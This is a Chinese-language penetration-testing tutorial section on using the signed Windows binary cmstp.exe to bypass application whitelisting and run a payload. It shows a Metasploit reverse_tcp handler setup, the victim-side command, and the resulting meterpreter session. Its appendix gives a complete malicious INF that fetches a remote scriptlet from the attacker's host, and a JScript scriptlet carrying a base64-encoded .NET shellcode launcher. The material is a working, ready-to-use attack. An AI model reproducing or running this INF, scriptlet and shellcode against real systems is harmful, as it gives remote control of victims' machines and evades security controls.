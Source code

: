 ### 11.17 基于白名单Cmstp.exe执行payload（十六）

**Cmstp简介：**

Cmstp安装或删除“连接管理器”服务配置文件。如果不含可选参数的情况下使用，则 cmstp 会使用对应于操作系统和用户的权限的默认设置来安装服务配置文件。

**微软官方文档：**

    https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp
    
        

说明：Cmstp.exe所在路径已被系统添加PATH环境变量中，因此，Cmstp命令可识别，需注意x86，x64位的Cmstp调用。

**Windows 2003 默认位置：**

    C:\Windows\System32\cmstp.exe
    C:\Windows\SysWOW64\cmstp.exe
    
        

**Windows 7 默认位置：**

    C:\Windows\System32\cmstp.exe
    C:\Windows\SysWOW64\cmstp.exe
    
        

攻击机： 192.168.1.4 Debian-
靶机： 192.168.1.119 Windows 7

**配置攻击机msf：**-
注：x64 payload

    msf exploit(multi/handler) > show options 
    
    Module options (exploit/multi/handler): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    
    Payload options (windows/x64/meterpreter/reverse_tcp): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port 
    
    Exploit target: 
    
    Id Name
    ‐‐ ‐‐‐‐
    0 Wildcard Target 
    
    emsf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010232512943.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**

    cmstp.exe /ni /s C:\Users\John\Desktop\rev.inf
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010232533881.png%23pic_center)-
注：x64 payload

    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
    [*] Sending stage (206403 bytes) to 192.168.1.5
    
    [*] Meterpreter session 9 opened (192.168.1.4:53 ‐> 192.168.1.5:13220)
    at 2019‐01‐20 12:08:52 ‐0500
    
    meterpreter > getuid
    
    Server username: John‐PC\John
    
    meterpreter > getpid
    
    Current pid: 8632
    
    meterpreter >
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010232555116.png%23pic_center)

**附录：**-
Micropoor\_rev\_cmstp\_inf：

    [version]
    
    Signature=$chicago$
    
    AdvancedINF=2.5 
    
    [DefaultInstall_SingleUser]
    
    UnRegisterOCXs=UnRegisterOCXSection 
    
    [UnRegisterOCXSection]
    
    %11%\scrobj.dll,NI,http://192.168.1.4/cmstp_rev_53_x64.sct 
    
    [Strings]
    
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    
    ServiceName="Micropoor"
    
    ShortSvcName="Micropoor"
    
        

cmstp\_rev\_53\_x64.sct

    <?XML version="1.0"?>
    <scriptlet>
    <registration
    progid="PoC"
    classid="{F0001111‐0000‐0000‐0000‐0000FEEDACDC}" > 
    
    <script language="JScript">
    
    <![CDATA[ 
    
    function setversion() {
    }
    function debug(s) {}
    function base64ToStream(b) {
    
    var enc = new ActiveXObject("System.Text.ASCIIEncoding");
    var length = enc.GetByteCount_2(b);
    var ba = enc.GetBytes_4(b);
    var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
    ba = transform.TransformFinalBlock(ba, 0, length);
    var ms = new ActiveXObject("System.IO.MemoryStream");
    ms.Write(ba, 0, (length / 4) * 3);
    ms.Position = 0;
    return ms;
    }
    
    var serialized_obj = "AAEAAAD/AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdh
    dGVTZXJpYWxpemF0aW9uSG9sZGVy"+
    "AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+
    "dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"+
    "ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"+
    "AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"+
    "RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"+
    "eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"+
    "cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"+
    "aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"+
    "MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"+
    "dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA"+
    "ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"+
    "B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"+
    "dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"+
    "CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u"+
    "SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"+
    "cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"+
    "AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"+
    "AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"+
    "bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"+
    "NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"+
    "ZW1ibHkGFwAAAARMb2FkCg8MAAAAABIAAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy"+
    "YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABkhgIAYaVEXAAAAAAA"+
    "AAAA8AAiIAsCCwAADAAAAAQAAAAAAAAAAAAAACAAAAAAAIABAAAAACAAAAACAAAEAAAAAAAAAAQA"+
    "AAAAAAAAAGAAAAACAAAAAAAAAwBAhQAAQAAAAAAAAEAAAAAAAAAAABAAAAAAAAAgAAAAAAAAAAAA"+
    "ABAAAAAAAAAAAAAAAAAAAAAAAAAAAEAAAJgCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAACAAAEgAAAAAAAAAAAAAAC50ZXh0AAAATAoAAAAgAAAADAAAAAIAAAAAAAAAAAAAAAAAACAA"+
    "AGAucnNyYwAAAJgCAAAAQAAAAAQAAAAOAAAAAAAAAAAAAAAAAABAAABALnJlbG9jAAAAAAAAAGAA"+
    "AAAAAAAAEgAAAAAAAAAAAAAAAAAAQAAAQkgAAAACAAUA7CIAAGAHAAABAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQgIoBAAACgAA"+
     "KAIAAAYAACoAAAAAAAAA/EiD5PDozAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pK"+
    "TTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdBmgXgYCwIPhXIAAACLgIgAAABIhcB0"+
    "Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhE"+
    "i0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpS///"+
     "/11JvndzMl8zMgAAQVZJieZIgeygAQAASYnlSbwCAAA1wKgBBEFUSYnkTInxQbpMdyYH/9VMiepo"+
    "AQEAAFlBuimAawD/1WoKQV5QUE0xyU0xwEj/wEiJwkj/wEiJwUG66g/f4P/VSInHahBBWEyJ4kiJ"+
    "+UG6maV0Yf/VhcB0Ckn/znXl6JMAAABIg+wQSIniTTHJagRBWEiJ+UG6AtnIX//Vg/gAflVIg8Qg"+
    "Xon2akBBWWgAEAAAQVhIifJIMclBulikU+X/1UiJw0mJx00xyUmJ8EiJ2kiJ+UG6AtnIX//Vg/gA"+
    "fShYQVdZaABAAABBWGoAWkG6Cy8PMP/VV1lBunVuTWH/1Un/zuk8SAHDSCnGSIX2dbRB/+dY"+
    "agBZScfC8LWiVv/VAAATMAYAZQAAAAEAABEAIP4BAACNBgAAASXQAwAABCgGAAAKChYGjml+AQAA"+
    "BH4CAAAEKAMAAAYLBhYHbigHAAAKBo5pKAgAAAoAfgkAAAoMFg1+CQAAChMEFhYHEQQWEgMoBAAA"+
    "BgwIFSgFAAAGJisAKkogABAAAIABAAAEH0CAAgAABCpCU0pCAQABAAAAAAAMAAAAdjQuMC4zMDMx"+
    "OQAAAAAFAGwAAABgAgAAI34AAMwCAABIAwAAI1N0cmluZ3MAAAAAFAYAAAgAAAAjVVMAHAYAABAA"+
    "AAAjR1VJRAAAACwGAAA0AQAAI0Jsb2IAAAAAAAAAAgAAAVfVAjQJAgAAAPolMwAWAAABAAAADwAA"+
    "AAQAAAADAAAABgAAAAwAAAALAAAABAAAAAEAAAABAAAAAQAAAAEAAAADAAAAAQAAAAEAAAABAAAA"+
    "AQAAAAAACgABAAAAAAAGAD0ANgAGAE0BMQEGAGkBMQEGAJgBeAEGALgBeAEGANsBNgAGACUCeAEG"+
    "AEACNgAGAHwCeAEGAIsCNgAGAJECNgAGALQCNgAGAOYCxwIGAPgCxwIGACsDGwMAAAAAAQAAAAAA"+
    "AQABAAEAEAATABsABQABAAEAAAAAAOABAAAFAAMABwATAQAASgIAACEABAAHABEATwASABEAWgAS"+
    "ABMBaAI+AFAgAAAAAIYYRAAKAAEAaCIAAAAAkQBKAA4AAQAAAAAAgACRIHEAFQABAAAAAACAAJEg"+
    "fgAdAAUAAAAAAIAAkSCLACgACwDZIgAAAACRGBQDDgANAAAAAQCfAAAAAgCrAAAAAwCwAAAABADB"+
    "AAAAAQDLAAAAAgDeAAAAAwDqAAAABAD5AAAABQD/AAAABgAPAQAAAQAaAQAAAgAiAREARAAuACEA"+
    "RAA0ACkARAAKAAkARAAKADkARAAKAEkApAJCAGEAuwJKAGkA7gJPAGEA8wJYAHEARABkAHkARAAK"+
    "ACcAWwA5AC4AEwBpAC4AGwByAGMAKwA5AAgABgCRAAEA/gEAAAQAWwALAwABBwBxAAEAAAEJAH4A"+
    "AQAAAQsAiwABAGggAAADAASAAAAAAAAAAAAAAAAAAAAAANYBAAAEAAAAAAAAAAAAAAABAC0AAAAA"+
    "AAQAAwAAAAA8TW9kdWxlPgAyMjIyLmRsbABQcm9ncmFtAFNoZWxsQ29kZUxhdW5jaGVyAG1zY29y"+
    "bGliAFN5c3RlbQBPYmplY3QALmN0b3IATWFpbgBNRU1fQ09NTUlUAFBBR0VfRVhFQ1VURV9SRUFE"+
    "V1JJVEUAVmlydHVhbEFsbG9jAENyZWF0ZVRocmVhZABXYWl0Rm9yU2luZ2xlT2JqZWN0AGxwU3Rh"+
    "cnRBZGRyAHNpemUAZmxBbGxvY2F0aW9uVHlwZQBmbFByb3RlY3QAbHBUaHJlYWRBdHRyaWJ1dGVz"+
    "AGR3U3RhY2tTaXplAGxwU3RhcnRBZGRyZXNzAHBhcmFtAGR3Q3JlYXRpb25GbGFncwBscFRocmVh"+
    "ZElkAGhIYW5kbGUAZHdNaWxsaXNlY29uZHMAU3lzdGVtLlNlY3VyaXR5LlBlcm1pc3Npb25zAFNl"+
    "Y3VyaXR5UGVybWlzc2lvbkF0dHJpYnV0ZQBTZWN1cml0eUFjdGlvbgBTeXN0ZW0uUnVudGltZS5D"+
    "b21waWxlclNlcnZpY2VzAENvbXBpbGF0aW9uUmVsYXhhdGlvbnNBdHRyaWJ1dGUAUnVudGltZUNv"+
    "bXBhdGliaWxpdHlBdHRyaWJ1dGUAMjIyMgBCeXRlADxQcml2YXRlSW1wbGVtZW50YXRpb25EZXRh"+
    "aWxzPntBODMyQkQ0MS1EQjgyLTQ0NzEtOEMxRC1BMDlBNDFCQjAzRER9AENvbXBpbGVyR2VuZXJh"+
    "dGVkQXR0cmlidXRlAFZhbHVlVHlwZQBfX1N0YXRpY0FycmF5SW5pdFR5cGVTaXplPTUxMAAkJG1l"+
    "dGhvZDB4NjAwMDAwMi0xAFJ1bnRpbWVIZWxwZXJzAEFycmF5AFJ1bnRpbWVGaWVsZEhhbmRsZQBJ"+
    "bml0aWFsaXplQXJyYXkASW50UHRyAG9wX0V4cGxpY2l0AFN5c3RlbS5SdW50aW1lLkludGVyb3BT"+
    "ZXJ2aWNlcwBNYXJzaGFsAENvcHkAWmVybwBEbGxJbXBvcnRBdHRyaWJ1dGUAa2VybmVsMzIALmNj"+
    "dG9yAFN5c3RlbS5TZWN1cml0eQBVbnZlcmlmaWFibGVDb2RlQXR0cmlidXRlAAAAAAADIAAAAAAA"+
    "Qb0yqILbcUSMHaCaQbsD3QAIt3pcVhk04IkDIAABAwAAAQIGCQcABAkJCQkJCgAGGAkJCRgJEAkF"+
    "AAIJGAkFIAEBEQ0EIAEBCAQBAAAAAwYREAcAAgESKREtBAABGAoIAAQBHQUIGAgCBhgIBwUdBQkY"+
    "CRgEIAEBDggBAAgAAAAAAB4BAAEAVAIWV3JhcE5vbkV4Y2VwdGlvblRocm93cwGAni4BgIRTeXN0"+
    "ZW0uU2VjdXJpdHkuUGVybWlzc2lvbnMuU2VjdXJpdHlQZXJtaXNzaW9uQXR0cmlidXRlLCBtc2Nv"+
    "cmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3"+
    "N2E1YzU2MTkzNGUwODkVAVQCEFNraXBWZXJpZmljYXRpb24BAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAQAAAAGAAAgAAAAAAAAAAAAAAAAAAA"+
    "AQABAAAAMAAAgAAAAAAAAAAAAAAAAAAAAQAAAAAASAAAAFhAAAA8AgAAAAAAAAAAAAA8AjQAAABW"+
    "AFMAXwBWAEUAUgBTAEkATwBOAF8ASQBOAEYATwAAAAAAvQTv/gAAAQAAAAAAAAAAAAAAAAAAAAAA"+
    "PwAAAAAAAAAEAAAAAgAAAAAAAAAAAAAAAAAAAEQAAAABAFYAYQByAEYAaQBsAGUASQBuAGYAbwAA"+
    "AAAAJAAEAAAAVAByAGEAbgBzAGwAYQB0AGkAbwBuAAAAAAAAALAEnAEAAAEAUwB0AHIAaQBuAGcA"+
    "RgBpAGwAZQBJAG4AZgBvAAAAeAEAAAEAMAAwADAAMAAwADQAYgAwAAAALAACAAEARgBpAGwAZQBE"+
    "AGUAcwBjAHIAaQBwAHQAaQBvAG4AAAAAACAAAAAwAAgAAQBGAGkAbABlAFYAZQByAHMAaQBvAG4A"+
    "AAAAADAALgAwAC4AMAAuADAAAAA0AAkAAQBJAG4AdABlAHIAbgBhAGwATgBhAG0AZQAAADIAMgAy"+
    "ADIALgBkAGwAbAAAAAAAKAACAAEATABlAGcAYQBsAEMAbwBwAHkAcgBpAGcAaAB0AAAAIAAAADwA"+
    "CQABAE8AcgBpAGcAaQBuAGEAbABGAGkAbABlAG4AYQBtAGUAAAAyADIAMgAyAC4AZABsAGwAAAAA"+
    "ADQACAABAFAAcgBvAGQAdQBjAHQAVgBlAHIAcwBpAG8AbgAAADAALgAwAC4AMAAuADAAAAA4AAgA"+
    "AQBBAHMAcwBlAG0AYgBsAHkAIABWAGUAcgBzAGkAbwBuAAAAMAAuADAALgAwAC4AMAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAABDQAAAAQAAAAJFwAAAAkGAAAACRYAAAAGGgAAACdTeXN0ZW0uUmVm"+
    "bGVjdGlvbi5Bc3NlbWJseSBMb2FkKEJ5dGVbXSkIAAAACgsA";
     var entry_class = 'ShellCodeLauncher.Program'; 
    
    try {
    setversion();
    var stm = base64ToStream(serialized_obj);
    var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
    var al = new ActiveXObject('System.Collections.ArrayList');
    var d = fmt.Deserialize_2(stm);
    al.Add(undefined);
    var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class); 
    } catch (e) {
    debug(e.message);
    } 
    ]]>
    </script>
    </registration>
    </scriptlet>
    
        

* * *